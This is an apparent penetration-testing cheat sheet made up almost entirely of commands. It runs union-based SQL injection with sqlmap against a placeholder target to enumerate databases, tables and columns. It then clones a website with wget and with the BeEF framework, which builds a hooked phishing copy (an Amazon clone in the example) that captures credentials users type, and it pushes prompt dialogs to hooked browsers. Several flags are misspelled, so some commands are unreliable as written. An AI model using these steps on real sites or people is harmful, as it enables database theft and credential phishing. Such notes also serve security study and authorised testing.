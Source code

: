 SQLMAP:
```bash
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --randomize rnd --dbms=mysql --technique=U --union-cols=7-10 --prefix "'" --sufix " # " --banner
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --current-db
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <name of the db> --tables
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <DBs name> -T <TABLEs name> --collums 
```


### 3 - Website Cloning
```bash
# edit /etc/hosts > add 127.0.0.1 cloned.test
cd /etc/apache2/sites-available > cp default cloned.test

# edit clonet.test > add ServerName cloned.test > edit DocumentRoot /var/www/cloned.test
a2ensite cloned.test
service apache2 reload

cd /var/www/cloned.test
echo 'Hello World' > index.html
test in browser
```

#### Clone with wget
```bash
cd /var/www/cloned.test/
wget -mK -nH <target site>
```

#### Clone with BeEF
```bash
beef -x
```

in shell:
```bash
curl -H "Content-Type: application/json; charset=UTF-8" \ -d '{"url":"<target URL>", "mount":"/amazon"}' \ -X POST http://127.0.0.1:3000/api/seng/clone_page?token=<API key from BeEF console> 

- Go to the browser and visit the address
- localhost:3000/amazon
# with beef its cloned + its automaticaly hooked 
# If the user type anything like user:password it will be redirect to the original site and BeEF will capture any info
```

in BeEF GUI:
```bash
Current Browser > Commands > Browser > Hooked Domain > Create Prompt Dialog
<write something> - Execute
```
